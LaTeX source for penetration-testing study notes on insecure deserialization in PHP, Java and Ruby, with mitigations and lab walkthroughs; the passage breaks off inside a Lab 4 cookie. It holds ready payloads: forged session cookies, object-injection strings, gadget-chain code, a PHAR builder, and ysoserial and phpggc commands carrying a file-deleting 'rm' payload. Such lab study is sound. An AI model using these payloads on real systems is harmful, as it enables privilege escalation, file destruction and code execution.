\documentclass[11pt]{article}

% ---------------------------------------------------------------
% PREAMBLE
% ---------------------------------------------------------------
\usepackage[a4paper,margin=2cm]{geometry}
\usepackage{fontspec}
\setmainfont{DejaVu Serif}
\setmonofont{DejaVu Sans Mono}

\usepackage{listings}
\usepackage{xcolor}
\usepackage{enumitem}
\usepackage{titlesec}
\usepackage{hyperref}
\usepackage[breakable,skins]{tcolorbox}
\usepackage{fancyhdr}
\usepackage{amssymb}
\usepackage{tikz}
\usetikzlibrary{arrows.meta,positioning,shapes.geometric,fit,backgrounds}

% Colors
\definecolor{codebg}{RGB}{245,245,245}
\definecolor{httpblue}{RGB}{20,60,110}
\definecolor{causeorange}{RGB}{180,80,0}

% Listings styles
\lstdefinestyle{http}{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\small,
    frame=single,
    rulecolor=\color{gray},
    columns=fullflexible,
    breaklines=true,
    breakatwhitespace=false,
    showstringspaces=false,
    language=,
}

\lstdefinestyle{code}{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\small,
    frame=single,
    rulecolor=\color{gray},
    columns=fullflexible,
    breaklines=true,
    breakatwhitespace=false,
    showstringspaces=false,
    language=Python,
    keywordstyle=\color{httpblue}\bfseries,
    commentstyle=\color{causeorange}\itshape,
    stringstyle=\color{teal},
    morekeywords={class,public,private,protected,function,new,static,final,void,String,readObject,writeObject,unserialize,serialize,__wakeup,__sleep,__destruct,__construct,__get,__toString,exec,system,pickle,loads,dumps,Marshal,load,require},
}

\lstset{escapeinside={(*@}{@*)}}

% Headings
\titleformat{\section}{\Large\bfseries\color{httpblue}}{\thesection}{1em}{}
\titleformat{\subsection}{\large\bfseries}{\thesubsection}{1em}{}
\titleformat{\subsubsection}{\normalsize\bfseries\itshape}{\thesubsubsection}{1em}{}

\pagestyle{fancy}
\fancyhf{}
\lhead{Insecure Deserialization -- Web Application Penetration Testing Notes}
\rhead{\thepage}
\setlength{\headheight}{14pt}

% tcolorbox environments
\newtcolorbox{causebox}{
    breakable, colback=orange!5, colframe=causeorange,
    title=Root Cause (Programming Perspective),
    fonttitle=\bfseries, coltitle=white
}

\newtcolorbox{labbox}[1]{
    breakable, colback=blue!4, colframe=httpblue,
    title=#1,
    fonttitle=\bfseries, coltitle=white
}

\hypersetup{colorlinks=true, linkcolor=httpblue, urlcolor=httpblue, citecolor=httpblue}

\setlist[itemize]{leftmargin=*}
\setlist[enumerate]{leftmargin=*}

% ---------------------------------------------------------------
\title{\textbf{Insecure Deserialization}\\\large Web Application Penetration Testing Notes}
\author{Eyad Islam El-Taher}
\date{}

\begin{document}
\maketitle
\tableofcontents
\newpage

% =================================================================
\section{Introduction}
% =================================================================
\begin{itemize}
    \item \textbf{Definition:} Insecure deserialization occurs when a website reconstructs objects from an attacker-controllable byte stream (a \textit{serialized} format) without verifying that the resulting object graph, its class types, or its attribute values are safe to trust.
    \item \textbf{Real-world impact:} Ranges from privilege escalation and authentication bypass, through arbitrary file read/write and SQL injection, up to full remote code execution (RCE) -- frequently with no source-code access required, since pre-built or documented gadget chains exist for common libraries.
\end{itemize}

% =================================================================
\section{Technical Background}
% =================================================================
\begin{itemize}
    \item \textbf{Serialization} converts an in-memory object graph into a flat byte/string representation so it can be stored (session files, databases, caches) or transmitted (cookies, message queues, RPC).
    \item \textbf{Deserialization} reverses the process: the byte stream is parsed and a live object is reconstructed, including \textbf{all} of the original object's fields -- private and protected fields are serialized too, unless explicitly marked \texttt{transient} (Java) or excluded via \verb|__sleep()| (PHP).
    \item Different ecosystems use different terminology for the same concept: \textbf{marshalling} in Ruby, \textbf{pickling} in Python, \textbf{serialization} in PHP and Java.
    \item Deserialization frequently triggers \textbf{magic methods} automatically, without any explicit call from application logic:
    \begin{itemize}
        \item PHP: \verb|__wakeup()| runs immediately after \verb|unserialize()|; \verb|__destruct()| runs when the object is garbage-collected (often at the end of the request); \verb|__toString()| and \verb|__get()| can be triggered indirectly by later code.
        \item Java: \texttt{readObject(ObjectInputStream)} is invoked automatically if a class overrides it, before any application code even sees the object.
        \item Ruby: \texttt{Marshal.load} can trigger \texttt{init} / \texttt{method\_missing} hooks and arbitrary object instantiation as part of reconstructing the object graph.
    \end{itemize}
    \item \textbf{Why this is dangerous:} deserialization does not just restore data -- it re-executes a portion of the class's own logic. An attacker who controls the byte stream effectively controls \textit{which classes get instantiated and with what field values}, and can chain together snippets of otherwise-legitimate application code (\textbf{gadgets}) into an attack (a \textbf{gadget chain}).
\end{itemize}

\begin{center}

\begin{tikzpicture}[node distance=7cm, every node/.style={font=\small}]
    \node[draw, rounded corners, fill=blue!5, minimum width=2.6cm, minimum height=0.9cm, align=center] (client) {Browser / Attacker};
    \node[draw, rounded corners, fill=blue!5, minimum width=3.4cm, minimum height=0.9cm, align=center, right=3.2cm of client] (app) {Application Server\\(deserializes cookie)};
    \node[draw, rounded corners, fill=orange!10, draw=causeorange, minimum width=3.2cm, minimum height=0.9cm, align=center, right=2.2cm of app] (gadgets) {Loaded classes\\(gadget chain)};
    \node[draw, rounded corners, fill=blue!5, minimum width=2.6cm, minimum height=0.9cm, align=center, below=1.4cm of app] (sink) {Dangerous sink\\(exec / SQL / file I/O)};
    \draw[-{Latex[length=2mm]}] (client) -- node[above]{serialized object} (app);
    \draw[-{Latex[length=2mm]}] (app) -- node[above]{instantiate} (gadgets);
    \draw[-{Latex[length=2mm]}, color=causeorange] (gadgets) -- node[right]{magic method} (sink);
\end{tikzpicture}
\end{center}
\textit{Figure: where the vulnerable component sits -- the attacker never talks to the sink directly; the deserializer and the application's own classes do the work.}

% =================================================================
\section{Vulnerability Anatomy}
% =================================================================

\begin{causebox}
General flawed pattern, found anywhere a session mechanism, cache, message queue, or ``remember me'' feature stores serialized state client-side or in a shared store:
\begin{lstlisting}[style=code]
# pseudo-code
raw_bytes = read_from_cookie_or_param(request)
obj = deserialize(raw_bytes)          # <-- no type/signature check
use(obj.some_field)                   # trusted blindly downstream
\end{lstlisting}
The developer assumes the byte stream can only have been produced by their own \texttt{serialize()} call earlier in the same trust boundary. Because the client can read, decode, edit, and re-encode that stream, this assumption is false the moment the data crosses the network.
\end{causebox}

\textbf{Attack surface} -- look for deserialization anywhere user input reaches one of these sinks:
\begin{itemize}
    \item Session cookies / tokens that decode to \verb|O:4:"..."| (PHP), start with \texttt{rO0} in Base64 or \texttt{ac ed} in hex (Java), or begin with \verb|\x04\x08| (Ruby \texttt{Marshal}).
    \item ``Remember me'' tokens, password-reset tokens, API tokens.
    \item File uploads that are later processed with filesystem functions vulnerable to PHAR wrappers (\texttt{file\_exists}, \texttt{is\_dir}, \texttt{file\_get\_contents}, \texttt{unlink}, \texttt{fopen}).
    \item Message queues, caches (Redis/Memcached), RPC payloads, and any endpoint that accepts a Content-Type of \texttt{application/x-java-serialized-object}.
    \item Hidden/backup files (\texttt{.java}, \texttt{.php\~{}}) that leak the exact class definitions being deserialized -- always worth requesting.
\end{itemize}

\subsection{PHP Object Injection}
PHP's \verb|serialize()|/\verb|unserialize()| produce a compact, human-readable, type-and-length-prefixed string format, e.g.\ \verb|O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}| Because the format is plain text with explicit length counters, testers can hand-edit.
\begin{causebox}
\begin{lstlisting}[style=code]
class CustomTemplate {
    private $lock_file_path;
    function __destruct() {
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);   # attacker-controlled path
        }
    }
}
$obj = unserialize($_COOKIE['session']);      # attacker chooses the CLASS too
\end{lstlisting}
\verb|unserialize()| does not care what class the developer \textit{intended} -- the class name is read straight out of the attacker's string. If \textit{any} loaded class has a dangerous magic method, the attacker can instantiate that class instead of the expected one (\textbf{arbitrary object injection}), and its \verb|__destruct()|/\verb|__wakeup()| fires automatically at the end of the request.
\end{causebox}

\subsection{Java Native Deserialization}
Java's \texttt{ObjectInputStream.readObject()} walks the byte stream and reconstructs the full class hierarchy, calling each class's \texttt{readObject()} override along the way. Unlike PHP, there is usually no source-code access -- exploitation instead relies on \textbf{gadget chains} inside common libraries already on the classpath (Apache Commons Collections, Spring, Hibernate, Groovy).
\begin{causebox}
\begin{lstlisting}[style=code]
public class ProductTemplate implements Serializable {
    private final String id;
    private void readObject(ObjectInputStream in)
            throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        # id is concatenated straight into a SQL string downstream
        String sql = "SELECT * FROM products WHERE id = '" + id + "'";
    }
}
\end{lstlisting}
Overriding \texttt{readObject()} to run custom logic is a deliberate Java feature (used for validation, caching, etc.), but any side effect placed there -- string concatenation into SQL, reflective invocation, file I/O -- fires the instant the object is reconstructed, before the application ever ``sees'' it.
\end{causebox}

\subsection{Ruby Marshal / Rails Gadget Chains}
Ruby's \texttt{Marshal.dump}/\texttt{Marshal.load} serialize instance variables of arbitrary objects, including internal, undocumented state of standard-library and Rails classes. Documented universal gadget chains (e.g.\ the \texttt{Gem::Requirement} / \texttt{Net::BufferedIO} chain) abuse classes that were never designed to be attacker-instantiated to reach \texttt{Kernel\#open} or similar RCE-capable calls.
\begin{causebox}
\begin{lstlisting}[style=code]
# simplified concept of the documented chain
entry = Net::BufferedIO.allocate
entry.instance_variable_set('@io', crafted_io)     # attacker sets internals directly
reader = Gem::Package::TarReader.allocate
reader.instance_variable_set('@io', entry)
payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, reader])
# Marshal.load(payload) walks the chain and ends in command execution
\end{lstlisting}
\texttt{instance\_variable\_set} lets the exploit author bypass constructors entirely and hand-craft an object's private state, which is exactly what \texttt{Marshal.load} does under the hood when deserializing -- so the "gadget" classes never run their normal validation logic.
\end{causebox}

\newpage

% =================================================================
\section{Exploitation Techniques}
% =================================================================

\subsection{Basic: Direct Field Tampering}
The simplest case: decode, edit a field, re-encode, resend. No gadget chain needed.
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <TARGET>
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7Yj
oxO30%3D
\end{lstlisting}
Decoded: \verb|O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}| -- the \verb|admin| boolean flipped from \verb|b:0| to \verb|b:1|.

\subsection{Intermediate: Type Juggling}
When the server uses PHP's loose comparison (\verb|==|), swapping a string field for an integer can bypass token checks, because PHP 7.x and earlier coerce \verb|"anything-starting-with-a-digit"| or a non-numeric string compared against \verb|0| to be considered equal.
\begin{lstlisting}[style=code]
$user = unserialize($_COOKIE['session']);
if ($user['access_token'] == $expected_token) {   # loose ==, not ===
    // authenticate
}
\end{lstlisting}
Setting the attacker-controlled field to the PHP integer type \verb|i:0;| instead of a quoted string satisfies \verb|0 == "any-non-numeric-string"| under PHP $\leq$ 7.x semantics.

\subsection{Intermediate: Abusing Legitimate Functionality}
Sometimes no gadget chain is needed at all -- an existing, intended field (e.g.\ an \verb|avatar_link| path used later by a delete-account feature) can simply be repointed at an arbitrary file.
\begin{lstlisting}[style=http]
POST /my-account/delete HTTP/1.1
Host: <TARGET>
Cookie: session=<@base64+urlencode of: O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"<TOKEN>";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}>@
Content-Length: 0
\end{lstlisting}
The delete-account routine unlinks whatever path is stored in \verb|avatar_link| -- an unrelated feature becomes a file-deletion primitive purely through field substitution.

\subsection{Advanced: Pre-Built Gadget Chains (ysoserial / phpggc)}
When no source is available, third-party tools generate known-working chains for popular libraries.
\begin{lstlisting}[style=code]
# Java - Apache Commons Collections via ysoserial
/usr/lib/jvm/java-8-openjdk/bin/java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64

# PHP - Symfony via phpggc
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
\end{lstlisting}
Both tools require guessing (or fingerprinting via an error message) the exact library and version in use; several chain variants are usually tried in sequence (trial and error).

\subsection{Advanced: Custom Gadget Chains}
When no ready-made tool covers the target framework, the tester must read leaked source (backup files, decompiled \verb|.class| files) and manually chain magic methods that were never meant to be combined -- e.g.\ PHP's \verb|__wakeup()| feeding a value into an unrelated class's \verb|__get()|, which in turn calls \verb|call_user_func()| on attacker-controlled data:
\begin{lstlisting}[style=code]
$b = new DefaultMap();
$b->callback = "exec";
$a = new CustomTemplate();
$a->default_desc_type = "rm /home/carlos/morale.txt";
$a->desc = $b;                       # wires the two unrelated gadgets together
echo serialize($a);
\end{lstlisting}

\subsection{Advanced: PHAR Deserialization Without \texttt{unserialize()}}
PHP's \texttt{phar://} stream wrapper transparently deserializes the PHAR archive's metadata the moment \textit{any} filesystem function (\texttt{file\_exists}, \texttt{is\_dir}, \texttt{getimagesize}, \texttt{unlink}) touches a \texttt{phar://} path -- \verb|unserialize()| is never called explicitly by the vulnerable code at all.
\begin{lstlisting}[style=code]
$phar = new Phar($tempname);
$phar->startBuffering();
$phar->addFromString("test.txt", "test");
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($maliciousObjectGraph);   # this is what gets deserialized
$phar->stopBuffering();
\end{lstlisting}
Disguising the resulting PHAR as a valid JPEG (a ``polyglot'') lets it pass an image-upload filter, after which the attacker simply requests it via \verb|phar://<path-or-username>| to trigger deserialization on a filesystem check.

% =================================================================
\section{Tools \& Methodology}
% =================================================================
\begin{itemize}
    \item \textbf{Burp Suite Inspector/Decoder} -- identifies and pretty-prints Base64-encoded serialized cookies automatically; the go-to tool for manual field editing.
    \item \textbf{Hackvertor (Burp extension)} -- \verb|@base64@|, \verb|@from_charcode@|, \verb|@length@| tags let you template a payload and have Burp compute Base64 and length prefixes on the fly, essential when embedding binary Java payloads inline.
    \item \textbf{ysoserial} -- generates ready-made Java gadget-chain payloads (\texttt{CommonsCollections1-7}, \texttt{Groovy1}, \texttt{Spring1/2}, etc.) for known-vulnerable libraries.
    \item \textbf{phpggc (PHP Generic Gadget Chains)} -- the PHP equivalent of ysoserial; \verb|phpggc -l <framework>| lists chains per framework/version (Symfony, Laravel, Guzzle, Monolog, WordPress...).
    \item \textbf{phar-jpg-polyglot} -- builds a PHAR/JPEG polyglot file for filter-bypassing avatar/image uploads.
    \item \textbf{SerializationDumper / Java Deserialization Scanner} -- parse and visualize raw Java serialized streams to identify class names and field layouts without a debugger.
    \item \textbf{PayloadsAllTheThings byte-signature table} -- quick reference for recognizing serialized formats by their first bytes across languages.
\end{itemize}

\textbf{Step 1 -- Predict.} Fingerprint the format from the raw bytes of every cookie/token/parameter: PHP starts with \verb|O:|, \verb|a:|, \verb|s:|, \verb|i:|, \verb|b:|; Java Base64 starts with \texttt{rO0}; Python pickle opcodes look like \verb|(lp0|, \verb|S'..'|; Ruby Marshal starts with \verb|\x04\x08|.

\textbf{Step 2 -- Probe.} Flip a single byte/field and observe: a parse error that leaks a class name or stack trace confirms deserialization is happening server-side and often names the exact framework/version.

\textbf{Step 3 -- Prove.} Escalate from a harmless field edit to a class-name substitution or a full gadget chain, and confirm impact with an out-of-band signal (file deletion, Collaborator interaction, timing) rather than assuming success from a 200 response alone.

\subsection{Mindset \& Common Tells}
\begin{itemize}
    \item Any cookie/token that is \textit{longer} and \textit{more structured} than a random session ID is worth Base64-decoding immediately.
    \item Error messages that mention a class name, a cast exception, or "Signature does not match" are gold -- they confirm both the mechanism and the framework in one shot.
    \item Never assume "no source access" means "not exploitable" -- pre-built gadget chains exist for almost every mainstream Java/PHP library.
    \item A common misconception is that binary formats (Java) are safe because they are not human-readable -- tooling makes them just as editable as PHP's plain-text format.
\end{itemize}

\subsection{Checklist}
\begin{itemize}
    \item[$\square$] Identify every cookie/parameter that decodes as Base64 and inspect the decoded bytes for known serialization signatures.
    \item[$\square$] Confirm the deserialization sink actually executes by tampering with a single low-risk field first.
    \item[$\square$] Search the site map and try \verb|.php~|, \verb|.java|, \verb|~| backup extensions for leaked source.
    \item[$\square$] Fingerprint the exact framework/library and version from error messages or \texttt{phpinfo()} leaks.
    \item[$\square$] Try pre-built gadget-chain tools (ysoserial, phpggc) before attempting a custom chain.
    \item[$\square$] If no gadget chain fits, manually trace magic methods (\verb|__wakeup|, \verb|__destruct|, \verb|__get|, \texttt{readObject}) from source to a dangerous sink.
    \item[$\square$] Confirm impact out-of-band (file deletion, Collaborator callback) rather than trusting the HTTP status code alone.
\end{itemize}

% =================================================================
\section{Impact Analysis}
% =================================================================
\begin{itemize}
    \item \textbf{Direct impact:} authentication bypass, privilege escalation, arbitrary file read/write/delete, SQL injection, server-side template injection, and ultimately remote code execution.
    \item \textbf{Business impact:} RCE via deserialization typically grants a foothold equivalent to a full server compromise -- data breach, lateral movement, ransomware deployment, and regulatory/compliance exposure (GDPR, PCI-DSS) follow directly.
    \item \textbf{Case studies:}
    \begin{itemize}
        \item The 2017 Equifax breach stemmed from an unpatched Apache Struts deserialization/OGNL vulnerability (CVE-2017-5638), exposing roughly 147 million records.
        \item Jenkins suffered multiple critical Java deserialization RCEs (e.g.\ CVE-2016-0792, CVE-2017-1000353) via its remoting/CLI protocol accepting untrusted serialized objects.
        \item The widespread Apache Commons Collections gadget chain disclosed by researchers Chris Frohoff and Gabriel Lawrence at AppSecCali 2015 (the basis for ysoserial) affected an enormous number of Java applications that had never audited their classpath for "dangerous" libraries.
    \end{itemize}
\end{itemize}

% =================================================================
\section{Mitigation \& Defense}
% =================================================================
\textbf{Coding}
\begin{itemize}
    \item \textbf{Avoid deserializing user input entirely.} Prefer data-only formats (JSON, well-validated XML) with an explicit schema instead of native object serialization for any client-facing state.
    \item \textbf{Integrity-protect what you must serialize.} If a serialized blob must round-trip through the client, sign it (HMAC) with a server-side secret and verify the signature \textit{before} deserializing, not after.
    \item \textbf{Restrict deserializable types.} Java: use \texttt{ObjectInputFilter} (JEP 290) or a class allowlist; avoid raw \texttt{ObjectInputStream} on untrusted streams. PHP: pass \\ \verb|['allowed_classes' => false]| to \verb|unserialize()| to disable object instantiation entirely, or an explicit allowlist if objects are required.
    \item \textbf{Remove dangerous magic methods} from any class that does not strictly need them, and never place filesystem/exec/SQL side effects inside \verb|__wakeup()|, \verb|__destruct()|, or \texttt{readObject()}.
\end{itemize}
\textbf{Architecture}
\begin{itemize}
    \item Keep deserialization endpoints (RPC, message queues) off the public network boundary; require mutual authentication between trusted services only.
    \item Run the deserializing process with least-privilege OS permissions so that even a successful gadget chain has a small blast radius.
\end{itemize}
\textbf{Infrastructure}
\begin{itemize}
    \item Deploy a WAF/RASP rule set that flags known gadget-chain byte signatures (\texttt{rO0}, \texttt{CommonsCollections} class names, \texttt{ysoserial} artifacts) in request bodies and cookies.
    \item Keep every library on the classpath patched -- most real-world Java deserialization RCEs rely on gadget classes from outdated, publicly known-vulnerable dependency versions.
\end{itemize}

% =================================================================
\section{Framework-Specific}
% =================================================================

\subsection{PHP / Laravel}
\begin{itemize}
    \item Laravel's own encrypted cookies (\verb|Illuminate\Cookie|) are signed and encrypted via \texttt{APP\_KEY}, which mitigates naive tampering -- but a leaked \texttt{APP\_KEY} (from a public \texttt{.env}, a debug page, or a weak default) re-opens full deserialization RCE via Laravel's own gadget chains (see phpggc's \texttt{Laravel/RCE*} chains).
    \item Raw PHP applications that hand-roll session cookies with \verb|serialize()|/\verb|unserialize()| (as in the labs in this document) have no such protection by default -- this is the classic vulnerable pattern.
    \item Footgun: passing user input straight into \verb|unserialize()| without the \verb|allowed_classes| option is still extremely common in legacy PHP $\leq$ 7.x codebases audited during CTFs and real engagements alike.
\end{itemize}

\subsection{Java (Spring / generic servlets)}
\begin{itemize}
    \item Spring applications that expose \texttt{RMI}, \texttt{JMX}, or accept \texttt{application/x-java-serialized-object} bodies are classic targets; Spring's own \texttt{Spring1}/\texttt{Spring2} gadget chains in ysoserial exploit \texttt{AbstractBeanFactoryPointcutAdvisor}.
    \item Framework-provided protection: \texttt{ObjectInputFilter} (built into the JDK since Java 9, backported to 8u121+) lets an application allowlist classes by pattern before deserialization proceeds.
    \item Footgun: legacy code still constructs a raw \texttt{ObjectInputStream} directly on socket/HTTP input with no filter configured at all.
\end{itemize}

\subsection{Ruby on Rails}
\begin{itemize}
    \item Rails' \texttt{CookieStore} session mechanism historically used \texttt{Marshal} for serialization; a leaked \texttt{secret\_key\_base} (default apps, exposed \texttt{config/secrets.yml}) allows forging a signed cookie containing a malicious \texttt{Marshal} payload.
    \item Framework-provided protection: modern Rails defaults to \texttt{ActiveSupport::MessageEncryptor} with JSON-based serializers (\texttt{Marshal} disabled by default since Rails 7.1) specifically to close this class of bug.
    \item Footgun: applications explicitly configured with \\ \verb|config.action_dispatch.cookies_serializer = :marshal| for backward compatibility reintroduce the vulnerability.
\end{itemize}

\subsection{Python (contextual note)}
\begin{itemize}
    \item \texttt{pickle.loads()} on untrusted data is directly equivalent to PHP/Java native deserialization -- the official Python documentation states it is not safe against maliciously constructed data, since \verb|__reduce__| lets an attacker specify an arbitrary callable to execute during unpickling.
    \item \texttt{PyYAML}'s \verb|yaml.load()| (without \verb|Loader=SafeLoader|) offers the same primitive via \texttt{!!python/object/apply} tags.
\end{itemize}

% =================================================================
\section{Bypasses \& Edge Cases}
% =================================================================

\subsection{Known Bypasses and Edge Cases}
\begin{itemize}
    \item \textbf{Type-juggling bypass (PHP $\leq$ 7.x):} loose \verb|==| comparisons treat a non-numeric string as equal to integer \verb|0| -- swap a string field to \verb|i:0;| to defeat naive token checks. Not applicable to PHP 8+, which changed string-to-number comparison semantics.
    \item \textbf{Length-prefix desync:} PHP serialized strings are length-prefixed (\verb|s:6:"wiener"|); editing a value without updating its length causes silent truncation or a parse error -- always recompute the length when hand-editing.
    \item \textbf{Signed-cookie bypass via leaked secret:} debug endpoints (\texttt{phpinfo.php}, exposed \texttt{.env}, verbose stack traces) frequently leak the HMAC/encryption secret needed to forge a valid signature over a malicious payload.
    \item \textbf{PHAR bypass of upload filters:} PHAR archives can be disguised as valid JPEG/GIF files (polyglots) to pass \texttt{getimagesize()}-based upload checks, then triggered later via any \texttt{phar://} filesystem access -- no direct \verb|unserialize()| call required.
    \item \textbf{Backup/source disclosure:} appending \verb|~| or \verb|.php~| to a known file path on some server/editor combinations returns an editor-generated backup containing full source -- the single most valuable recon trick across these labs.
    \item \textbf{Edge case testers miss:} forgetting that \verb|__destruct()| fires \textit{even when deserialization itself throws an error} -- a lab may still be "solved" despite an HTTP 500 response, because the destructor already ran before the exception surfaced.
\end{itemize}

\subsection{Lab 1: Modifying Serialized Objects}
\begin{labbox}{Goal}
The session cookie is a serialized \texttt{User} PHP object containing an \texttt{admin} boolean. Flip it to \texttt{true} to reach the admin panel, then delete Carlos's account.
\end{labbox}
\begin{enumerate}
    \item Log in as \texttt{wiener:peter} and capture the post-login \texttt{GET /my-account} request in Burp Repeater.
    \item Select the \texttt{session} cookie value and open the Inspector panel; Burp automatically Base64-decodes it to reveal \\ \verb|O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}|.
    \item Change \verb|b:0| to \verb|b:1| directly in the Inspector (it re-encodes automatically) and send the request.
    \item Browse to \texttt{/admin} -- the panel is now visible with a \texttt{Delete} link for each user.
    \item Send \texttt{GET /admin/delete?username=carlos} to solve the lab.
\end{enumerate}
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7Yjo
xO30%3D
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
$user = unserialize($_COOKIE['session']);
if ($user->admin === true) {
    show_admin_panel();          # trusts a client-supplied boolean directly
}
\end{lstlisting}
The \texttt{admin} flag is stored client-side inside the serialized object with no server-side re-verification against the database -- the client is trusted to tell the server whether it is an administrator.
\end{causebox}

\subsection{Lab 2: Modifying Serialized Data Types}
\begin{labbox}{Goal}
Exploit a PHP loose-comparison (\texttt{==}) quirk between an \texttt{access\_token} string and an attacker-supplied integer to authenticate as \texttt{administrator}, then delete Carlos.
\end{labbox}
\begin{enumerate}
    \item Log in as \texttt{wiener:peter}; decode the session cookie to \\ \verb|O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"<32-char-token>";}|.
    \item In the Inspector, change \texttt{username} to \texttt{administrator} and update its length prefix from \texttt{6} to \texttt{13}.
    \item Change the \texttt{access\_token} value's type from a 32-character string to the integer \verb|0|: replace \verb|s:32:"..."| with \verb|i:0;| (removing the quotes entirely, since it is no longer a string).
    \item Send the request -- PHP's \verb|==| coerces the comparison \verb|0 == "<any-token-string>"| to true under PHP $\leq$ 7.x, granting the administrator session.
    \item Browse to \texttt{/admin} and delete \texttt{carlos} to solve the lab.
\end{enumerate}
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzO
jEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
$user = unserialize($_COOKIE['session']);
if ($user['access_token'] == $storedTokenForUsername) {   # loose comparison
    log_in_as($user['username']);
}
\end{lstlisting}
Same TOCTOU-style trust-the-client pattern as Lab 1, but the flaw is in the \textit{comparison operator} rather than the field's boolean value -- \verb|==| performs type coercion, \verb|===| would not.
\end{causebox}

\subsection{Lab 3: Using Application Functionality to Exploit Insecure Deserialization}
\begin{labbox}{Goal}
No gadget chain is needed -- repurpose the legitimate \texttt{avatar\_link} field (used by the account-deletion feature to clean up a user's avatar file) to delete \texttt{/home/carlos/morale.txt} instead.
\end{labbox}
\begin{enumerate}
    \item Log in as \texttt{wiener:peter} (a backup account \texttt{gregg:rosebud} is also provided) and decode the session cookie: \verb|O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access|
    \verb|_token";s:32:"<TOKEN>";s:11:"avatar_link";s:19:"users/wiener/avatar";}|.
    \item In the Inspector, change the \texttt{avatar\_link} value to \texttt{/home/carlos/morale.txt} and update its length prefix from \texttt{19} to \texttt{23}.
    \item Send the modified cookie with a request to the account-deletion endpoint \texttt{POST /my-account/delete}.
    \item The deletion routine calls \texttt{unlink()} (or equivalent) on whatever path is stored in \texttt{avatar\_link}, deleting Carlos's file and solving the lab.
\end{enumerate}
\begin{lstlisting}[style=http]
POST /my-account/delete HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWN
jZXNzX3Rva2VuIjtzOjMyOiI8VE9LRU4%2BIjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D
Content-Length: 0
\end{lstlisting}
\begin{causebox}
\begin{lstlisting}[style=code]
function delete_account($user) {
    unlink($user->avatar_link);          # path taken straight from the object
    delete_from_db($user->username);
}
\end{lstlisting}
This is deduplicated with Lab 1's root cause (client trusted to supply object state), applied to a filesystem path instead of a boolean -- proof that the vulnerable \textit{pattern} is the same even when the exploited \textit{feature} differs.
\end{causebox}

\subsection{Lab 4: Arbitrary Object Injection in PHP}
\begin{labbox}{Goal}
Discover a second class (\texttt{CustomTemplate}) via leaked source code, then inject an entirely different object type than the one the session mechanism expects, abusing its \verb|__destruct()| to delete \texttt{morale.txt}.
\end{labbox}
\begin{enumerate}
    \item Log in and note the session cookie decodes to a \texttt{User} object; browsing the site reveals a reference to \texttt{/libs/CustomTemplate.php}.
    \item Send that request to Repeater and append a tilde: \texttt{GET /libs/CustomTemplate.php\~{}} -- this editor-backup trick returns the full PHP source.
    \item Read the source: \texttt{CustomTemplate} has a \texttt{lock\_file\_path} attribute and a \verb|__destruct()| method that calls \verb|unlink($this->lock_file_path)| unconditionally.
    \item Craft a brand-new serialized object of type \texttt{CustomTemplate} (not \texttt{User}) with \texttt{lock\_file\_path} set to \texttt{/home/carlos/morale.txt}: \\ \verb|O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}|
    \item Base64- and URL-encode it, replace the session cookie entirely, and send -- \verb|unserialize()| instantiates a \texttt{CustomTemplate} instead of \texttt{User}, and its destructor fires at end of request, deleting the file (a 500 error is expected and fine).
\end{enumerate}
\begin{lstlisting}[style=http]
GET /my-account HTTP/1.1
Host: <LAB-ID>.web-security-academy.net
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmls
